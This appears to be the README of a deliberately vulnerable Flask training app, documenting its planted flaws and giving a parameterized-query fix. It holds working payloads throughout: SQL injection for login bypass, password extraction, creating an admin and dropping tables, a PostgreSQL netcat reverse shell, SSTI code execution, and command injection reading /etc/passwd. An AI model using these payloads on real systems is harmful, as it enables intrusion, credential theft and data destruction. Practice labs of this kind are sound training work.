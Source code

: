 # eTechAcademy Flask App

## Vulnerabilities

### SQL Injection
#### Retrieve Data
Paths: `/login` and `/index`
Methods: `GET, POST`

**Examples:**
- Log into admin account with SQL
```
username: ' OR 1=1--
password: a

OR 

username: admin 
password: ' OR 1=1--
```

- Vulnerable query database on `/index`
```
' OR 1=1--
' UNION SELECT username,password FROM users--
' UNION SELECT username || '~' || password,role FROM users--
```
![SQL Injection](assets/index_sql_injection.png)
Resources: [Sqli CheatSheet](https://book.hacktricks.xyz/pentesting-web/sql-injection)


**SQL Fix:**
```
cur.execute("SELECT user_id, role FROM users WHERE username = %s AND password = %s", (username, password))
```

#### Insert/Update/Drop Data
**Examples**
Path: `/add_course`
Methods: `GET, POST`

*Note:* Must be **Instructor/Admin** role and you must select instructor and set image_path for this to work properly.
```
# Insert new admin user
New Course', 'Malicious Description', NULL, 'image.jpg'); INSERT INTO users (username, password, role) VALUES ('evil', 'evil', 'admin'); --

# Update admin password
New Course', 'test', NULL, 'test.jpg'); UPDATE users SET password = 'testing' WHERE username = 'admin'; --

# Drop table
New Course', 'test', NULL, 'test.jpg'); DROP TABLE courses CASCADE; --
```
![SQL Injection Query](assets/add_course_sql_query.png)
![SQL Injection Proof](assets/add_course_sql_proof.png.png)

#### RCE Via SQL Injection (Postgresql)
Path: `/add_course`
Methods: `GET, POST`

**Example:**
```
NewCourse', 'test', 1, 'test'); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f'; SELECT * FROM cmd_exec;--
```

### Server-Side Template Injection
Paths: `/search_course`
Methods: `GET, POST`

**Examples:**
```
{{ 7 * 7 }}
```

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
![Server Side Template Injection](assets/course_ssti.png)
Other resources: [SSTI Cheatsheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

### Command Injection
Path: `/admin_dashboard/system_monitor`
Methods: `GET, POST`
*NOTE: Anyone can access this page. Code doesn't check for user or admin role.*
**Examples:**
```
whoami
cat /etc/passwd
```
![Command Injection](assets/command_injection.png)

### Command Injection via API endpoint
Path: `/endpoint`
Methods: `POST`
![](assets/endpoint_script_exploit.png)

**Example**
```
python3 etechacademy_script.py --target <HOST> --port <PORT> --context endpoint --cmd <CMD>
curl -X POST http://<target>:<port>/endpoint -H "Content-Type: application/json" -d '{"command": "whoami"}'
```

### Unrestricted File Upload
Path: `/upload`
Methods: `GET, POST`

Can upload files to server with any extension. Once uploaded, you can execute the file it is has (*.php, .py, .sh*) extensions or delete the file.
![Upload File](assets/upload_file.png)

### Debug Shell
Path: `/debug`
Methods: `GET`

Debug shell to execute python commands on server.
![](assets/debug_shell.png)
